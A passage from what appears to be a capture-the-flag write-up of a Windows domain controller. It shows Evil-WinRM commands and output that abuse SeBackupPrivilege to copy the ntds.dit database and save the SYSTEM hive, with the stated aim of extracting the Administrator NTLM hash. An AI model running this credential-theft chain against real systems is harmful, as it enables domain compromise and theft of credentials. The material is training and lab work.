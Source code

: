 ```shell
    Directory: v:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
-ar---        5/28/2020  10:09 AM             32 root.txt


**Evil-WinRM** PS v:\Users\Administrator\Desktop> type root.txt
Access to the path 'v:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ type root.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : **PermissionDenied:** (v:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
**Evil-WinRM** PS v:\Users\Administrator\Desktop>

```
Since we have the SeBackupPrivilege we can go inside the Administrator folder but we can't download or read the Administrator files it is nicely explained in this github repository:<br>
[https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)<br>
[Download the required cmdlets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)<br>
Now let's upload these dlls and get the ntds.dit file and the registry SYSTEM file on our machine so we can use secretsdump.py to retrieve the Administrator NTLM hash. First head back to c:\temp directory and then uplod the dlls.
```shell
**Evil-WinRM** PS C:\temp> upload /home/sid/Documents/resources/SeBackupPrivilegeCmdLets.dll
Info: Uploading /home/sid/Documents/resources/SeBackupPrivilegeCmdLets.dll to C:\temp\SeBackupPrivilegeCmdLets.dll

                                                             
Data: 16384 bytes of 16384 bytes copied

Info: Upload successful!

**Evil-WinRM** PS C:\temp> upload /home/sid/Documents/resources/SeBackupPrivilegeUtils.dll
Info: Uploading /home/sid/Documents/resources/SeBackupPrivilegeUtils.dll to C:\temp\SeBackupPrivilegeUtils.dll

                                                             
Data: 21844 bytes of 21844 bytes copied

Info: Upload successful!

```
Let's import these, and like in the example in the github repo : Copy-FileSeBackupPrivilege .\report.pdf c:\temp\x.pdf -Overwrite<br>
we can copy the ntds.dit file into temp folder.
```shell
**Evil-WinRM** PS C:\temp> import-module .\SeBackupPrivilegeUtils.dll
**Evil-WinRM** PS C:\temp> import-module .\SeBackupPrivilegeCmdLets.dll
**Evil-WinRM** PS C:\temp> Copy-FileSebackupPrivilege v:\Windows\NTDS\ntds.dit C:\temp\sid.dit
**Evil-WinRM** PS C:\temp> download sid.dit
Info: Downloading C:\temp\sid.dit to sid.dit

Info: Download successful!
**Evil-WinRM** PS C:\temp> reg save HKLM\SYSTEM c:\temp\system
The operation completed successfully.

```